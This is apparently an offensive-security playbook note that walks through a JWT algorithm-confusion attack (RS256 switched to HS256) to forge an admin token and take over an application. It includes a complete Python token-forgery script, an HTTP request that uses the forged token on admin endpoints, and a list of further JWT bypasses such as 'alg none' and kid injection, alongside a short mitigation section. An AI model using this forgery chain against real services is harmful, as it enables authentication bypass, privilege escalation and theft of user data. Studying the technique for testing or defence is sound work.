

# Vulnerability Chaining Playbook: JWT Algorithm Confusion to Admin JWT Forgery and Full App Takeover

## 1. Executive Overview

JSON Web Tokens (JWT) are the modern standard for stateless authentication in APIs and microservices. However, flawed implementations of JWT libraries often lead to devastating authentication bypasses. One of the most sophisticated attacks against JWTs is the **Algorithm Confusion Attack** (changing RS256 to HS256). 

This playbook details the process of identifying a vulnerable JWT implementation, extracting the server's public key, exploiting the algorithm confusion vulnerability to forge a cryptographically valid token, and utilizing that forged token to elevate privileges to an Administrator, resulting in a full application takeover.

## 2. Chain Architecture

The attack hinges on exploiting a cryptographic verification logic flaw within the application's backend.

1.  **Reconnaissance:** Intercepting a valid JWT and identifying the asymmetric algorithm in use (e.g., RS256).
2.  **Key Extraction:** Locating and downloading the public key used by the server for verification.
3.  **Algorithm Confusion:** Modifying the JWT header to use a symmetric algorithm (HS256) and signing the token using the extracted *public key* as the symmetric secret.
4.  **Privilege Escalation:** Modifying the payload to reflect administrative privileges.
5.  **Application Takeover:** Submitting the forged token to access administrative panels and compromise the application.



## 3. Understanding JWT Algorithm Confusion (RS256 to HS256)

JWTs consist of three parts: `Header.Payload.Signature`.
The Header specifies the algorithm used to sign the token.
*   **RS256:** An asymmetric algorithm. The server uses a *Private Key* to sign the token, and a *Public Key* to verify it.
*   **HS256:** A symmetric algorithm. The server uses a *single Secret Key* to both sign and verify the token.

**The Vulnerability:**
Many generic JWT libraries implement a single `verify(token, key)` function.
If an attacker changes the header from `RS256` to `HS256`, the vulnerable library switches to HMAC symmetric verification. The library will then use the provided `key` as the HMAC secret. In an asymmetric setup, the `key` configured in the application for verification is the **Public Key**.

Therefore, if the attacker knows the Public Key, they can use it as the HMAC secret to sign a forged token. The backend will verify it successfully because it computes the HMAC using its copy of the Public Key, and the signatures will match.

## 4. Phase 1: Public Key Extraction

To perform this attack, the attacker must obtain the exact Public Key used by the server.

### 4.1. Locating the Public Key
1.  **JWKS Endpoint:** Modern applications (like those using OAuth 2.0 / OIDC) often expose public keys at a standard endpoint:
    `https://api.target.com/.well-known/jwks.json`
2.  **Source Code Leakage:** Finding `.pem` or `.crt` files in public GitHub repositories, open S3 buckets, or via directory traversal vulnerabilities.
3.  **Certificate Extraction:** Sometimes the public key is part of the TLS certificate chain, or exposed in an application's metadata endpoint.

### 4.2. Converting JWKS to PEM
If the key is found in JWKS format (JSON Web Key Set), it must be converted to a PEM format for signing. Tools like `rsa-pem-from-mod-exp` or online converters can generate the PEM file using the `n` (modulus) and `e` (exponent) values from the JWKS.

```bash
# Example PEM File (public.pem)
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAu...
-----END PUBLIC KEY-----
```

## 5. Phase 2: Forging the Admin JWT

With the public key acquired, the attacker crafts the malicious token.

### 5.1. Header Modification
Decode the Base64Url header of a legitimate JWT and change the algorithm.
*Original:* `{"typ":"JWT","alg":"RS256"}`
*Modified:* `{"typ":"JWT","alg":"HS256"}`

### 5.2. Payload Modification (Privilege Escalation)
Decode the payload and elevate the privileges.
*Original:* `{"user":"alice","role":"user","iat":1620000000}`
*Modified:* `{"user":"admin","role":"admin","iat":1620000000}`

### 5.3. Signing the Token
The attacker uses the exact string representation of the `public.pem` file as the symmetric secret to sign the modified Header and Payload using HMAC-SHA256.

*Important Note:* The format of the public key must match exactly byte-for-byte what the backend application reads into memory (including newlines and whitespace).

**Python Forgery Script:**
```python
import hmac
import hashlib
import base64
import json

# 1. Prepare Header and Payload
header = {"typ": "JWT", "alg": "HS256"}
payload = {"user": "admin", "role": "admin", "iat": 1620000000}

# Helper function for Base64Url encoding
def base64url_encode(data):
    return base64.urlsafe_b64encode(data).replace(b'=', b'').decode('utf-8')

# 2. Encode Header and Payload
encoded_header = base64url_encode(json.dumps(header).encode('utf-8'))
encoded_payload = base64url_encode(json.dumps(payload).encode('utf-8'))

# 3. Read the Public Key (The exact format is crucial)
with open("public.pem", "rb") as f:
    public_key = f.read()

# 4. Create the signing string
signing_input = f"{encoded_header}.{encoded_payload}"

# 5. Generate HMAC-SHA256 signature using the Public Key as the secret
signature = hmac.new(public_key, signing_input.encode('utf-8'), hashlib.sha256).digest()
encoded_signature = base64url_encode(signature)

# 6. Assemble the forged JWT
forged_jwt = f"{signing_input}.{encoded_signature}"
print(f"Forged JWT:\n{forged_jwt}")
```

## 6. Phase 3: Application Takeover

The attacker replaces their legitimate session token with the forged `forged_jwt` and accesses administrative API endpoints.

```http
GET /api/v1/admin/users HTTP/1.1
Host: api.target.com
Authorization: Bearer <Forged_JWT>
```

If the backend is vulnerable, it reads the `alg: HS256` header, switches to HMAC verification, hashes the header/payload with its local copy of `public.pem`, and finds that the resulting signature perfectly matches the attacker's signature. 

The attacker now possesses full administrative privileges, allowing them to:
*   Create rogue administrator accounts.
*   Exfiltrate the entire user database.
*   Modify system configurations or upload malicious files (chaining to RCE).

## 7. Bypassing Signature Validations (Other JWT Flaws)

If Algorithm Confusion is patched, attackers often pivot to other JWT signature flaws:
*   **None Algorithm (`"alg": "none"`):** Some libraries accept tokens without a signature if the algorithm is set to `none`.
*   **Weak Symmetric Secrets:** If HS256 is used legitimately, attackers will attempt to crack the secret using tools like `hashcat` or `john` if the secret is a weak, dictionary word.
*   **KID Parameter Injection:** Exploiting the `kid` (Key ID) header parameter to force the server to read a predictable file (e.g., `/dev/null`) or execute a SQL injection to retrieve a key.

## 8. Mitigation and Defensive Strategies

Preventing JWT vulnerabilities requires strict adherence to cryptographic best practices.

### 8.1. Force Algorithm Specification
Never rely on the `alg` header provided by the user to determine the verification algorithm. The backend must explicitly enforce the expected algorithm.

```javascript
// VULNERABLE Node.js (jsonwebtoken library)
// Relies on the token's header to determine the algorithm
jwt.verify(token, publicKey);

// SECURE
// Explicitly enforces that only RS256 is accepted
jwt.verify(token, publicKey, { algorithms: ['RS256'] });
```

### 8.2. Separate Key Management
Ensure that the cryptographic libraries used clearly separate asymmetric keys from symmetric secrets in their APIs, preventing a public key from ever being cast as a byte-array for HMAC operations.

### 8.3. Validate Key Formats
Implement checks to ensure that when an asymmetric algorithm is expected, the loaded key is genuinely a valid RSA/ECDSA key pair and not arbitrary string data.

## 9. Chaining Opportunities

JWT attacks are prime mechanisms for privilege escalation, leading to highly sensitive post-exploitation chains.

*   **Pre-requisite Chains:**
    *   `[[01 - Reconnaissance]]`: Finding exposed JWKS endpoints or source code containing public keys.
    *   `[[06 - IDOR PII Exfiltration Mass Account Breach]]`: Using compromised low-level accounts to obtain valid baseline JWTs.
*   **Subsequent Chains:**
    *   `[[08 - File Upload Webshell RCE Lateral Movement]]`: Using newly acquired admin privileges to access restricted file upload modules.
    *   `[[07 - SQLi File Read Credentials RCE]]`: Accessing administrative panels that are vulnerable to SQLi due to lack of standard input sanitization on "trusted" admin inputs.

## 10. Related Notes
*   `[[04 - Broken Authentication]]`
*   `[[11 - API Security Best Practices]]`
*   `[[OWASP API Security Top 10]]`
